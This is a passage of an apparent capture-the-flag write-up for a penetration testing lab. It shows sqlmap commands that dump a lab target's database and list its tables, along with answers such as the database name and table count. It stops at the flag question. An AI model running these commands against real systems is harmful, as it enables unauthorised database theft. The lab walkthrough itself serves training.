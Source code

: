 2. How many types of sqli is the site vulnerable too?

	`3`

3. Dump the database.

	running `./sqlmap.py -u http://10.10.176.119 --forms --current-db --dump` gives us,

	![db dump](/assets/thm/ccpentesting/ccpentest10.png)

4. What is the name of the database?

	`tests`

5. How many tables are in the database?

	running `./sqlmap.py -u http://10.10.176.119 --forms --tables` gives us this, so `2`

	![num tables](/assets/thm/ccpentesting/ccpentest11.png)

6. What is the value of the flag?
